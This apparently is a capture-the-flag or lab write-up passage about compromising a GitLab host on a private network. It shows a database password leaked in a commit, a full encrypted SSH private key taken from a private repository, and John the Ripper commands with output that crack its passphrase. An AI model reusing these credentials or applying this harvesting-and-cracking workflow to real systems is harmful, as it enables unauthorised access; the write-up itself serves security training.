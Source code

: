 By searching the commits on the CMS repository, we find a leaked credential for the user `http://172.31.1.6/jonathan/CMS/-/commit/779d0aede34847d51e14991d88e3aaf3b39ada87`
```
define('URL_USER',PROTOCOL.'doorgets.prod:8888/dg-user/');
define('SQL_HOST','localhost');
define('SQL_LOGIN','jonathan');
define('SQL_PWD','rPHAKWAgMZtjr9at');
define('SQL_PWD','');
define('SQL_DB','doorgets-prod01');
define('SQL_VERSION','5.5.42');
require_once CONFIGURATION.'includes.php';
```
After loggin into gitlab as this user, there is one more private repository named security. Inside here is a ssh key we can grab:
```
http://172.31.1.6/jonathan/security/-/blob/master/id_rsa

-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,8195A08A6A205E425326C0C3FDC09F06

Xv4NSHR4axwHPGs0La0NztG45JBvlIgDFtPs0okJw/AyskKSNrAmIkzdp3WXuETG
tal1ODeucnIlipYnXPSOuzJAchk3lkyUqpMSB+N8ljCvLnTEY0FZU0HsHkaPWvPB
qTn4tgtrgzO2hI2S/WV5q43vmmTbC7pZraMdGakr/uncbav59CnQl4mr7uygYYuq
CoN26OFPefFA5KIvUWURZfMgaMjFqP0udrj2IXh0LJxpKlrFGItST2KscFcustvS
VU9JQsWoJ9O4JUcb9dUaxU1LYmfFv2PcogN0joipCbPppNL1iBkwusRoCVCFGIM9
7mAccCZBc53t6mV8OCpBXxDmm5V4HrQGnMeZBoguuPPYR54KTbF9qhU4ZOTODVzp
ADP32fau3m13UqzZsBShOsrR6wC6UgtvZ1nuELMjl0GcCZ2UAScD97hy+7vV4O22
umIRm9wQjSWBtY6cZe47usTuzyXPzpaqtZl3Em+2BzUE+JEvETmZ0+EYgGrZ6/qK
dmjt4a4gCIh4VvLxHUnyuL47V2zuKFGT7mmowUXM+g266Q0xjatdHxTbMPCr3T8f
GCW5GxYcB7yjB+jWqr+jtE45F4LG0BY0UMQzZgJ0zT+ZgbafJMd/P8qd6A1hCIqH
cNLBt3aenK8E5/ZFVbTJzFSa7NdEsZNuCAFkLN2Dh8ZZ6811orIMrKDAkVmbf3Fj
I4n/YxWtz3IrmhR/0B5D1+JZW2CkRfzJe/htLAYkOY/G8RdysAyGjLrBegyxDSHD
k1Zr25nc0URcZtDlAvVHd2i/IWfIpsIF+ZcY4+QGx5yH0NNP42K+UMJFSnWdL0CN
K1KiROGNBdNYsP5A0e/Odasz7pnev8w2KdW0pOEAd8ORBLtWcwoYectFdaR8nRhM
8UiOhfk9Y0FsrPb7t9KcjkzWEgZjNbMZrQTyoEaqLGXTO0ESS/gkicz9rFUU7qmQ
u+HWltL3+5C5VO7tvq21MPt7KZ2r0AbxRxRU+Xk55++vJSkNMtONpSaeXe2/+5Fj
w6BOT5KO2eiUwo2C7GBl+aJl8K7a2gtZaOw5KJYGUfs+qcoLo1V2k0qicLvldJnP
11nnwU3mCNtq2SHvwriDIkx0jT7s1s+rlT8E9ySJhyG+9KUdaDnbC5gz9j5pm/QA
CiBQV+czK3/LBt3+dEjyJXP+RjcdDi60Owiu6egrfF5Pms9XY7Z8PG+oHlpH+B6k
IhYbEL/qPcLkHjuwHTFLUICsX/HuBGMBCY6karuf+6AwpaohMT9Wn+Es7UZ3FBSz
BDwZAE68fyOLmJgFY7SlIXQhQcP7dVTc5EaIBCWKIoeLJNEqwKgkLxMxybnz21vk
UdZ6ZOVg49VNb15omZtiEXA2L46BhtxHJEiJR9lKfYw+20++XjwKyy7RPo/vE5Yn
FJgDajrLEvtNxEZ0B/tNdxI61lkOK8+GXRCQU+9WFtsl+I46Ut24L3XUDQQmPyWk
boDDkgA0WnM08LDbA3FK5GBPB6go2HTZ/bidzABx9KpkaJfHzZgQzEMSfTz2Melq
jj5rxHXKJDLV/cLhGAXmTqfhknTbHvBzzfs0GMkZICXlDSjvuDriJd+1DswKckaV
-----END RSA PRIVATE KEY-----
```

After trying to log in with this, we see it has a password. So we use ss2john to create a hash and crack it to find the password 
```
/opt/JohnTheRipper/run/ssh2john.py id_rsa > hash

john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
scooby           (id_rsa)
```